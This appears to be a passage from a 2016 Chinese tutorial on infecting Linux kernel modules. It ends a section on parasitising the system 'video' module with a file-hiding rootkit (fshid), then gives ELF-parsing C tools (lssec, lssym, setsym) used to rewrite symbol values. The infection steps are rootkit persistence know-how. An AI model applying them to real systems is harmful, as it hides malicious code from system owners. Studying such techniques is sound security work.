我们感染到 ``video`` 模块里的代码打印出来的启动信息。
显然，我们的感染是成功。

.. image:: images/startup.png

系统重启之后，进行文件隐藏是否起作用的测试。参考结果如下图。

.. image:: images/rebooted.png

如何修改 fshid 使其便于寄生到真实的系统模块
*******************************************

在第 3 小节感染示例模块的时候，我们就对 fshid 做了一些必要的修改。
请注意，在用来感染实际的系统模块时，我们还要多做一点改动。

改动的第一点是把 ``init_module`` 与 ``cleanup_module`` 改成
``fshid_init`` 与 ``fshid_exit`` 来避免名字冲突。
这一点改动与第 3 小节是一样的。

第二点就是，在 ``fshid_init`` 里调用 ``acpi_video_init`` ，
在 ``fshid_exit`` 里调用 ``acpi_video_exit``
来使宿主被感染之后依旧能正常工作。第二点也与第 3 小节类似。

最后是与第 3 小节不同的一个改动，
在定义 ``fshid_init`` 的时候前面加上 ``__init`` ，
定义 ``fshid_exit`` 的时候前面加上 ``__exit`` 。

这是因为系统模块的初始函数与退出函数在定义的时候
通常都加上了这两个修饰前缀。
它们的作用是把函数的代码放到特殊的代码区间里
（也就是说，不放到 ``.text`` 区间里）。
这一点我们要与被感染的模块保持一致。

把系统模块初始函数与退出函数的绑定改成 global 的必要性
******************************************************

系统模块的初始函数与退出函数在定义的时候通常也都会加上 ``static`` ，
这就使得这两个函数只在它那个源码文件的目标文件里可见，
我们也就不能在我们的假初始函数与假退出函数里调用了。

所以，我们要先用 ``objcopy --globalize-symbol``
把这两个函数从 ``local`` 变成 ``global`` 。

5. 小结
+++++++

到此，我们详细讨论了通过链接、修改符号表来感染其他模块并劫持 /
挂钩其他模块的初始函数与退出函数，并将目标模块变成我们的宿主，
依托目标模块活动。

需要说明的是，对符号的具体解析、重定位细节，本文没有深入，
且待后续的分解。

另外，本文使用的 ``ld`` 与 ``objcopy`` 在普通用户的机器上很可能没有。
也就是说，我们其实需要自己实现链接与把符号从 ``local``
改成 ``global`` 的功能。考虑到篇幅有限，本文对这两个的实现不做讲解。


第二部分： ELF 文件解析初步
---------------------------

示例一：列举所有区间的名字、文件偏移等信息：``lssec``
+++++++++++++++++++++++++++++++++++++++++++++++++++++

分析 ELF 头部
*************

ELF 文件的起始部分为 ELF 头部，
ELF 头部有两种， 即 ``Elf32_Ehdr`` （32 比特 ELF 文件头部）
与 ``Elf64_Ehdr`` （64 比特 ELF 文件头部）。

我们以 ``Elf64_Ehdr`` 为例看看其成员的含义。

.. code-block:: c

   typedef struct
   {
     unsigned char  e_ident[EI_NIDENT]; // ELF 特征码与其他信息。
     Elf64_Half     e_type; // 类型。
     Elf64_Half     e_machine; // 架构。
     Elf64_Word     e_version; // 版本。
     Elf64_Addr     e_entry; // 入口点虚拟地址。
     Elf64_Off  e_phoff; // 程序头表的文件偏移。
     Elf64_Off  e_shoff; // 区间头表的文件偏移。
     Elf64_Word     e_flags;
     Elf64_Half     e_ehsize; // ELF 头部的大小（单位：字节）。
     Elf64_Half     e_phentsize; // 程序头表项的大小（单位：字节）。
     Elf64_Half     e_phnum; // 程序头表项的数目。
     Elf64_Half     e_shentsize; // 区间头表项的大小（单位：字节）。
     Elf64_Half     e_shnum; // 区间头表项的数目。
     Elf64_Half     e_shstrndx; // 区间头字符串表在区间头表的索引。
   } Elf64_Ehdr;

头部的前 ``EI_NIDENT`` 字节数据（即结构体中的 e_ident 成员）
为 ELF Identification，
其中包括特征码，比特类型（即 32 比特或者 64 比特）
与其他信息（比如端序 ）。

具体解析的时候，我们先从文件的起始处读取
``EI_NIDENT`` 字节的内容到内存中，
从中判断出文件的比特类型，在知道了文件的比特类型之后，
我们就可以确定该用 ``Elf32_Ehdr`` 还是用 ``Elf64_Ehdr`` 。

本文涉及的所有操作均以 ``Elf64_Ehdr`` + 小端序为例。

结合示例代码来理解。

.. code-block:: c

   // 省略打开文件部分。

   unsigned char e_ident[EI_NIDENT];
   // 读取文件起始 ``EI_NIDENT`` 字节的内容。
   if (fread(e_ident, 1, EI_NIDENT, fp) != EI_NIDENT) {
       fprintf(stderr, "%s\n", "Incomplete ELF Identification!");
       return EXIT_FAILURE;
   }

   // 判断 ``ELF`` 特征码是否正确。
   // ``ELFMAG`` 与 ``SELFMAG`` 定义于系统头文件 ``elf.h`` 中，
   // 分别为特征码与特征码的大小。
   if (memcmp(e_ident, ELFMAG, SELFMAG) != 0) {
       fprintf(stderr, "%s\n", "Bad ELF Magic Number!");
       return EXIT_FAILURE;
   }

   // 判断是否是 64 比特小端序。
   // 这里使用的宏比如 ``EI_CLASS`` 与 ``ELFCLASS64`` 均定义于 ``elf.h`` 。
   if (e_ident[EI_CLASS] != ELFCLASS64 || e_ident[EI_DATA] != ELFDATA2LSB) {
       fprintf(stderr, "%s\n", "We Only Support ELF64 LE!");
       return EXIT_FAILURE;
   }

   Elf64_Ehdr header;
   // 退回到文件起始。
   fseek(fp, 0, SEEK_SET);
   // 读取一个 ``Elf64_Ehdr`` 大小的内容，
   // 也就是读取 ``ELF`` 头部。
   if (fread(&header, 1, sizeof header, fp) != sizeof header) {
       fprintf(stderr, "%s\n", "Incomplete ELF Header!");
       return EXIT_FAILURE;
   }

分析区间头部
************

上面我们讨论了 ELF 头部的结构与读取方式，
接下来我们看看怎样处理区间头部，区间头部也分两种，
32 比特的叫 ``Elf32_Shdr`` ，自然 64 比特的也就叫 ``Elf64_Shdr`` 。

以 ``Elf64_Shdr`` 为例，成员含义如下。

.. code-block:: c

   typedef struct
   {
     Elf64_Word     sh_name; // 区间名（字符串表索引）。
     Elf64_Word     sh_type; // 区间类型。
     Elf64_Xword    sh_flags; // 区间标志。
     Elf64_Addr     sh_addr; // 区间虚拟地址。
     Elf64_Off  sh_offset; // 区间文件偏移。
     Elf64_Xword    sh_size; // 区间大小（单位：字节）。
     Elf64_Word     sh_link;
     Elf64_Word     sh_info;
     Elf64_Xword    sh_addralign;
     Elf64_Xword    sh_entsize; // 这个会在下面 lssym 的时候解释。
   } Elf64_Shdr;

值得注意的是， ``sh_name`` 成员并不是一个字符串，
而是一个整数，为区间头表字符串表的索引。
那我们怎么拿到这个区间的名字呢？

回想我们前面讲的 ELF 头部结构，
``Elf64_Ehdr`` 里的 ``e_shoff`` 成员是区间头表的文件偏移，
``e_shentsize`` 是区间头表项的大小（单位：字节），
``e_shnum`` 是区间头表项的数目；也就是说，
从文件偏移 ``e_shoff`` 开始 ``e_shentsize * e_shnum`` 大小的内容
就是区间头表。
这样一来，我们可以把整个区间头表读取到内存里。
而 ``e_shstrndx`` 是字符串表在区间头表的索引，
通过访问这个索引得到字符串表的头部，
并进而根据头部中的信息将字符串表的内容读取出来，
再 ``sh_name`` 作偏移访问字符串表就可以拿到区间名了。

结合代码示例理解。

.. code-block:: c

   size_t size = header.e_shnum * header.e_shentsize;
   // 分配区间头表大小的内存。
   Elf64_Shdr *section_header_table = malloc(size);
   if (section_header_table == NULL) {
       perror("malloc");
       return EXIT_FAILURE;
   }

   // 定位到文件偏移 ``e_shoff`` 处。
   fseek (fp, header.e_shoff, SEEK_SET);
   // 读取区间头表。
   if (fread(section_header_table, 1, size, fp) != size) {
       fprintf(stderr, "%s\n", "Incomplete Section Header Table!");
       return EXIT_FAILURE;
   }

   // 得到字符串表的区间头。
   Elf64_Shdr shstrtab = section_header_table[header.e_shstrndx];
   // 区间大小。
   size = shstrtab.sh_size;
   // 分配内存。
   char *section_header_string_table = malloc(size);
   if (section_header_string_table == NULL) {
       perror("malloc");
       return EXIT_FAILURE;
   }

   // 定位到字符串表所在文件偏移。
   fseek (fp, shstrtab.sh_offset, SEEK_SET);
   // 读取字符串表。
   if (fread(section_header_string_table, 1, size, fp) != size) {
       fprintf(stderr, "%s\n", "Incomplete Section Header String Table!");
       return EXIT_FAILURE;
   }

遍历所有区间并打印其信息
************************

然后我们就可以遍历区间头表并将其名字、文件偏移等信息打印出来。
代码如下。

.. code-block:: c

   printf("%s\n", "number offset     size   entsize   name");
   for (unsigned num = 0; num < header.e_shnum; num += 1) {
       Elf64_Shdr section_header = section_header_table[num];
       char *name = string_table + section_header.sh_name;
       printf("%4u %8llx %8llx %8llx %s\n",
              num, section_header.sh_offset,
              section_header.sh_size, section_header.sh_entsize,
              name);
   }

参考效果
********

编译 ``lssec.c`` 得到 ``lssec`` 。

左边是 ``./lssec /bin/ls`` ，
右边是对比使用的 ``readelf -S /bin/ls`` 。

.. image:: images/lssec.png

示例二：列举所有符号的名字、值等信息：``lssym``
+++++++++++++++++++++++++++++++++++++++++++++++

上面的示例一完成了对区间头表的遍历。现在我们再看看怎么读取符号表。

基于示例一遍历区间头表的代码，
我们可以实现一个 ``get_section_by_name`` ，
即通过区间名字拿到对应的区间头。

然后我们通过 ``get_section_by_name`` 拿到 ``.symtab`` （即符号表）与
``.strtab`` （符号字符串表）的区间头，
进而根据这两个头把这两个区间读到内存中来。
看如下代码。

.. code-block:: c

   // 获取 .symtab 的头。
   Elf64_Shdr *symtab = get_section_by_name(".symtab",
                                            header,
                                            sec_header_tab,
                                            shstrtab);

   // 这儿省略获取 .strtab 的头，与获取 .symtab 的头类似。

   // 这儿省略对是否获取成功的检查。

   // 分配 .symtab 大小的内存。
   Elf64_Sym *syms = malloc(symtab->sh_size);
   if (syms == NULL) {
       perror("malloc");
       return EXIT_FAILURE;
   }
   // 定位到 .symtab 的文件偏移。
   fseek(fp, symtab->sh_offset, SEEK_SET);
   // 读取 .symtab。
   if (fread(syms, 1, symtab->sh_size, fp) != symtab->sh_size) {
       fprintf(stderr, "%s\n", "Incomplete Symbol Table!");
       return EXIT_FAILURE;
   }

   // 这儿省略 .strtab 的读取，与 .symtab 的读取类似。

此时， ``.symtab`` 与 ``.strtab`` 都已经读到内存里了。
下面我们看看， ``.symtab`` 的结构。

区间头有一个 ``sh_entsize`` 成员，这个成员的含义是，
如果这个区间保存的是一张表，
那么 ``sh_entsize`` 就是这张表中每个成员的大小。
回想一下，区间头里的 ``sh_size`` 是区间的大小，
所以对 ``.symtab`` 而言，它有 ``sh_size / sh_entsize`` 项成员。

每项成员由结构体 ``Elf64_Sym`` 描述，定义如下。

::

   typedef struct
   {
     Elf64_Word     st_name; // 符号名字（字符串表索引）
     unsigned char  st_info; // 类型与绑定。
     unsigned char st_other;
     Elf64_Section  st_shndx;
     Elf64_Addr     st_value; // 符号的值。
     Elf64_Xword    st_size;
   } Elf64_Sym;

``Elf64_Sym`` 中的 ``st_name`` 是一个整数，
为符号的名字在 ``.strtab`` 中的索引，
这一点与之前区间头（ ``Elf64_Shdr`` ）里的 ``sh_name`` 类似。

知道了这些，我们就可以遍历整个符号表并将符号的名字，
符号的值等信息打印出来，如下代码所示。

.. code-block:: c

   printf("%s\n",
          "num    index    size    value  info other  name");
   int total = symtab->sh_size / symtab->sh_entsize;
   for (int count = 0; count < total; count += 1) {
       printf("%4llu %4llx %8llu %8llx %4x %4x %s\n",
              count,
              syms[count].st_shndx,
              syms[count].st_size,
              syms[count].st_value,
              syms[count].st_info,
              syms[count].st_other,
              strs + syms[count].st_name);
   }

参考效果
********

编译 ``lssym.c`` 得到 ``lssym`` ，如下图所示，
左边是 ``./lssym ../noinj/noinj.ko`` ，
右边是用来对照的 ``readelf -s ../noinj/noinj.ko`` 。

.. image:: images/lssym.png

示例三：获取或修改给定符号的值：``setsym``
++++++++++++++++++++++++++++++++++++++++++

既然我们已经能够遍历整个符号表了，那么要获取给定符号的值，毫无压力。

那么修改给定符号的值呢，也很简单，请看如下代码，
基于示例二的遍历逻辑修改而来。

.. code-block:: c

    for (int count = 0; count < total; count += 1) {
        // 判断当前遍历到的符号是不是我们给定的符号。
        // 请注意，argv[2] 位置参数用来给定符号的名字。
        if (strcmp(strs + syms[count].st_name, argv[2]) == 0) {
           // 如果是，就会执行进来。
           // 判断位置参数的个数。
            if (argc == 4) {
                // 如果给定了 3 个位置参数，执行到这里。
                // 这时是 setsym 的第二种用法。
                // 即 setsym <module_path> <symbol_name> <symbol_value> 。
                // 也就是设置给定符号的值。

                // 取当前符号。
                Elf64_Sym sym = syms[count];
                char *endp;
                errno = 0;
                // 将 argv[3] 转换成整数。
                // 注意 argv[3] 是需要设置的给定符号的值。
                unsigned long long val = strtoull(argv[3], &endp, 0);
                // 处理转换时可能出现的错误。
                if ((errno == ERANGE && val == ULLONG_MAX) ||
                    (errno != 0 && val == 0)) {
                    perror("strtoull");
                    return EXIT_FAILURE;
                }
                // 处理转换时可能出现的错误。
                if (endp == argv[3]) {
                    fprintf(stderr, "%s\n", "No Valid Number!");
                    return EXIT_FAILURE;
                }
                // 把符号的值改成给定的值。
                sym.st_value = val;

                // 计算当前符号距离 .symtab 起始的偏移。
                long delta = count * symtab->sh_entsize;
                // 定位到当前符号的文件偏移。
                fseek(fp, symtab->sh_offset + delta, SEEK_SET);
                // 写入修改后的符号。
                if (fwrite(&sym, 1, sizeof sym, fp) != sizeof sym) {
                    fprintf(stderr, "%s\n", "Incomplete Sym Write!");
                    return EXIT_FAILURE;
                } else {
                    fprintf(stderr, "%s\n", "Writing complete.");
                }
            } else {
                // 如果给定了 2 个位置参数，执行到这里。
                // 请注意，我们在程序的开始部分就把 argc 限制在了
                // 3 或者 4 。

                // 这时是 setsym 的第一种用法。
                // 即 setsym <module_path> <symbol_name> 。
                // 获取给定符号的值。
                printf("0x%llx\n", syms[count].st_value);
            }
        }
    }

参考效果
********

考虑到我们在第一部分已经基于 ``setsym`` 完成了我们的 Happy Hacking 。
这里就不必举参考用例了。

第三部分： 参考资料与延伸阅读
-----------------------------

1. 参考资料
+++++++++++

- Infecting loadable kernel modules: kernel versions 2.6.x/3.0.x, http://phrack.org/issues/68/11.html#article
- Tool Interface Standard (TIS) Executable and Linking Format (ELF) Specification Version 1.2, http://refspecs.linuxbase.org/elf/elf.pdf

2. 延伸阅读
+++++++++++

- Infecting Loadable Kernel Modules, http://phrack.org/issues/61/10.html#article
- Static Kernel Patching, http://phrack.org/issues/60/8.html#article


如有错误疏忽，欢迎纠正补充；
如有疑惑不解，欢迎提问讨论。

rectigu@gmail.com ， 二〇一六年七月。


.. _笔者的上一篇文章: http://www.freebuf.com/articles/system/107829.html
